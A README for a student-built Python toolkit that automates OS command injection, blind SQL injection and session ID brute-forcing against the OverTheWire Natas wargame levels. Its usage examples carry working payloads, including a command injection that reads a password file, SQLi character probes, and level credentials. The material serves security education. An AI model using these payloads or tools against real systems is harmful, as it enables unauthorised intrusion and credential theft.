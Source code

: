 
# Security Engineering Toolkit: An Automated Vulnerability Prober

## Overview

This project is the primary output of a Security Engineering course project. It began as a deep-dive analysis into the OverTheWire Natas wargames and evolved into the creation of a modular, Python-based security toolkit designed to intelligently automate the discovery and exploitation of common web vulnerabilities.

The core philosophy of this toolkit is to move beyond simple, blind exploitation and implement more intelligent, analysis-driven automation. Each module was directly inspired by a specific challenge encountered during the Natas wargames, translating theoretical knowledge into a practical, reusable tool.

## Features

-   **Intelligent OS Command Injection Prober:** Uses a response-diffing algorithm to precisely detect the output of injected commands, reducing false positives.
-   **Boolean-Based Blind SQLi Exfiltrator:** Automates the character-by-character exfiltration of data when only a "true" or "false" response is available from the server.
-   **Time-Based Blind SQLi Exfiltrator:** Exploits time-based side channels to exfiltrate data from completely "blind" injection points where no visible output is provided.
-   **Session ID Brute-Forcer:** A specialised tool to exploit weak session ID generation, capable of handling both simple numeric and hex-encoded session tokens.

## Prerequisites & Setup

The toolkit is designed to run on Python 3.9+ and requires the `requests` library.

1.  **Clone the repository:**
    ```bash
    git clone [your-repo-link]
    cd [your-repo-directory]
    ```

2.  **Create and activate a virtual environment (recommended):**
    ```bash
    python -m venv venv
    source venv/bin/activate
    ```

3.  **Install the required dependencies:**
    ```bash
    pip install -r requirements.txt
    ```

## Usage

The toolkit is operated from `main.py` with a clear command structure.

### General Help

To see the main commands (`inject`, `session`), use the help flag:
```bash
python main.py -h
```
To see the options for a specific subcommand, like `inject`:
```bash
python main.py inject -h
```

---

### Module 1: OS Command Injection (`cmd`)

This module tests for OS command injection vulnerabilities. It intelligently compares a baseline response with the exploit response to confirm success.

**Example Command (for Natas 9):**
```bash
python main.py inject cmd http://natas9.natas.labs.overthewire.org/ \
    -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" \
    --param needle \
    --payload "; cat /etc/natas_webpass/natas10 #"
```

**Argument Breakdown:**
-   `inject cmd`: Specifies the command injection module.
-   `-u "user:pass"`: Sets the basic authentication credentials.
-   `--param needle`: The name of the vulnerable parameter in the request.
-   `--payload "..."`: The specific malicious payload to inject. The `#` is used to comment out the rest of the original command.

---

### Module 2: Boolean-Based Blind SQL Injection (`sqli-bool`)

This module automates the painstaking process of exfiltrating data when the only feedback is a "success" or "failure" message.

**Manual Analysis (The process the tool automates):**
The tool automates the process of checking each character. For example, to manually check if the password starts with 'a' and then 'h':
```sql
natas16" AND password LIKE BINARY "a%" -- -
natas16" AND password LIKE BINARY "h%" -- -
```

**Example Command (for Natas 15):**
```bash
python main.py inject sqli-bool http://natas15.natas.labs.overthewire.org/ \
    -u "natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx" \
    --data "username=natas16" \
    --param-to-fuzz username \
    --success-string "This user exists"
```

**Argument Breakdown:**
-   `inject sqli-bool`: Specifies the boolean-based SQLi module.
-   `--data "username=natas16"`: The POST data to send. The tool will inject into this data.
-   `--param-to-fuzz "username"`: The specific key within the `--data` dictionary to inject into.
-   `--success-string "..."`: **Crucial.** This is the exact text the tool looks for in the response to confirm a "true" condition.

---

### Module 3: Time-Based Blind SQL Injection (`sqli-time`)

This module is for the most difficult scenarios where there is no visible feedback. It infers data based on server response delays.

**Example Command (for Natas 17):**
```bash
python main.py inject sqli-time http://natas17.natas.labs.overthewire.org/ \
    -u "natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC" \
    --data "username=natas18" \
    --param-to-fuzz username \
    --sleep-time 3 \
    --max-len 32
```

**Argument Breakdown:**
-   `inject sqli-time`: Specifies the time-based SQLi module.
-   `--sleep-time 3`: The number of seconds to ask the database to `SLEEP()`. Choose a value high enough to be clearly distinguishable from normal network latency.
-   `--max-len 32`: The maximum password length to test for. The script first determines the exact length before exfiltrating characters.

---

### Module 4: Session ID Brute-Forcer (`session`)

This module exploits predictable session ID generation schemes.

**Example Command - Simple Integers (for Natas 18):**
```bash
python main.py session http://natas18.natas.labs.overthewire.org/ \
    -u "natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin"
```

**Example Command - Hex-Encoded (for Natas 19):**
```bash
python main.py session http://natas19.natas.labs.overthewire.org/ \
    -u "natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin" \
    --hex-encode
```

**Argument Breakdown:**
-   `session`: Specifies the session brute-force module.
-   `--range "1:640:1"`: The range to test, in `start:stop:step` format.
-   `--template "PHPSESSID=^PASS^"`: The cookie structure. `^PASS^` is the placeholder that will be replaced with the generated ID.
-   `--hex-encode`: An optional flag that enables the specific logic for Natas 19 (encodes `[ID]-admin` to hex).

